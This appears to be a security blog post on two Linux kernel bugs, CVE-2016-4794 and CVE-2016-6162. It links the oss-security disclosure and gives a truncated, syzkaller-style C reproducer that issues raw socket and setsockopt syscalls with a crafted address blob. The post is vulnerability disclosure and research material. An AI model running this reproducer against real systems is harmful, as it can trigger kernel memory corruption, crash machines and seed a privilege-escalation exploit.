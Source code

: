 ```yaml
---
layout: post
title:  "[CVE-2016-4794/6162] Two linux kernel bugs"
date:   2016-07-06 11:00:00 +0800
categories: security linux
---
```


## CVE-2016-6162

# oss-sec link
[http://www.openwall.com/lists/oss-security/2016/07/05/1](http://www.openwall.com/lists/oss-security/2016/07/05/1)

# Reproducer

{% highlight c %}
#include <unistd.h>
#include <sys/syscall.h>
#include <string.h>
#include <stdint.h>
#include <pthread.h>

#ifndef SYS_mmap
#define SYS_mmap 9
#endif
#ifndef SYS_socket
#define SYS_socket 41
#endif
#ifndef SYS_bind
#define SYS_bind 49
#endif
#ifndef SYS_sendto
#define SYS_sendto 44
#endif
#ifndef SYS_setsockopt
#define SYS_setsockopt 54
#endif
#ifndef SYS_dup
#define SYS_dup 32
#endif
#ifndef SYS_write
#define SYS_write 1
#endif

long r[22];

int main()
{
memset(r, -1, sizeof(r));
r[0] = syscall(SYS_mmap, 0x20000000ul, 0x1e000ul, 0x3ul, 0x32ul,
0xfffffffffffffffful, 0x0ul);
r[1] = syscall(SYS_socket, 0xaul, 0x2ul, 0x0ul, 0, 0, 0);
memcpy((void*)0x20006000,
"\x0a\x00\xab\x12\xc7\x17\x1c\x83\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x05\x4f\xdc\xc0\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00",
128);